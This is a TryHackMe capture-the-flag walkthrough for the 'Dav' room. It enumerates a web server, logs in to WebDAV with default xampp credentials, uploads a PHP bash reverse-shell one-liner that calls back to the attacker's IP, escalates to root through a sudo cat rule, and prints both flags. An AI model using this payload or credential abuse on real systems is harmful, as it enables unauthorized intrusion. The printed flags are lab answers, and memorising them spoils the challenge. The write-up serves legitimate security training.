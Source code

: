 ## Dav - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtdav)

**IP: 10.10.252.247**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.252.247

  Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-03 14:59 BST
  Warning: 10.10.252.247 giving up on port because retransmission cap hit (2).
  Nmap scan report for 10.10.252.247
  Host is up (0.047s latency).
  Not shown: 65470 closed tcp ports (reset), 64 filtered tcp ports (no-response)
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 56.28 seconds
  ```
  
- Since it has web page, now I do Gobuster.
  ```
  gobuster dir -u http://10.10.252.247 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /webdav               (Status: 401) [Size: 460]
  /server-status        (Status: 403) [Size: 301]
  Progress: 220560 / 220561 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- Now, I visited `server-status` and it wasn't helpful, but `webdav` was. it has a login page which is exploitable and my only access to the target.
  
---

## ⚙️ Shell Access

- So I spent a pretty decent amount of time looking for different exploits. At the end I just googled `webdav default login credentials` and found [this page](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) that has default login credentials and command to upload files!
  ```
  wampp
  xampp

  cadaver http://<REMOTE HOST>/webdav/
  ```
  
- That actually worked! Since I'm in, I found `passwd.dav` that contains password for `wampp`. Now I started uploading shells, I was trying so hard to make this [Pentest Monkey shell](https://github.com/pentestmonkey/php-reverse-shell) work but I couldn't do it...
  
- Then I decided to change the shell and found this one liner which is DA GOAT!!! DA GOAT !!! 🐐
  ```
  nano phpreverse.php
  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/[PORT] 0>&1'");
  ```

- Now upload the shell, start the listener and then visit the `webdav` and open the shell. Voila, you are in!
  ```
  cadaver http://10.10.252.247/webdav/ 

  Authentication required for webdav on server `10.10.252.247':
  Username: wampp
  Password: 
  dav:/webdav/> help
  Available commands: 
   ls         cd         pwd        put        get        mget       mput       
   edit       less       mkcol      cat        delete     rmcol      copy       
   move       rename     lock       unlock     discover   steal      showlocks  
   version    checkin    checkout   uncheckout history    label      propnames  
   chexec     propget    propdel    propset    search     set        open       
   close      echo       quit       unset      lcd        lls        lpwd       
   logout     help       describe   about      
  Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye

  dav:/webdav/> put phpreverse.php
  Uploading phpreverse.php to `/webdav/phpreverse.php':
  Progress: [=============================>] 100.0% of 74 bytes succeeded.
  dav:/webdav/> ls
  Listing collection `/webdav/': succeeded.
          2php-reverse-shell.php              5495  May  3 16:10
          passwd.dav                            44  Aug 26  2019
          php-reverse-shell.php               5495  May  3 16:08
          phpreverse.php                        74  May  3 16:16
          reverse-shell.php                   5492  May  3 16:05
  dav:/webdav/> 
  ```

  ```
  nc -lvnp 4444

  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.252.247] 36462
  bash: cannot set terminal process group (708): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@ubuntu:/var/www/html/webdav$
  ```

- Awesome! Now lets find those flags.

---

## 🧍 User Privilege Escalation

- You can get the user flag with two simple commands.
  ```
  www-data@ubuntu:/var/www/html/webdav$ find / -name user.txt 2>/dev/null
  find / -name user.txt 2>/dev/null
  /home/merlin/user.txt
  
  www-data@ubuntu:/var/www/html/webdav$ cat /home/merlin/user.txt
  cat /home/merlin/user.txt
  449b40fe93f78a938523b7e4dcd66d2a
  ```
  
- Now going for root flag.

---

## 👑 Root Privilege Escalation

- OK, I'm gonna say this right now, this was the easiest root flag ever made period. Just use `sudo -l` and you'll see...
  ```
  www-data@ubuntu:/var/www/html/webdav$ sudo -l
  sudo -l
  Matching Defaults entries for www-data on ubuntu:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on ubuntu:
      (ALL) NOPASSWD: /bin/cat
  
  www-data@ubuntu:/var/www/html/webdav$ sudo cat /root/root.txt
  sudo cat /root/root.txt
  101101ddc16b0cdf65ba0b8a7af7afa5
  ```
  
- TOLD YA, BYE! 💋

---

## 🏁 Flags

- **User Flag**: `449b40fe93f78a938523b7e4dcd66d2a`
- **Root Flag**: `101101ddc16b0cdf65ba0b8a7af7afa5`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Mastering googling...`

- What did I learn?
  `Never give up, never!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
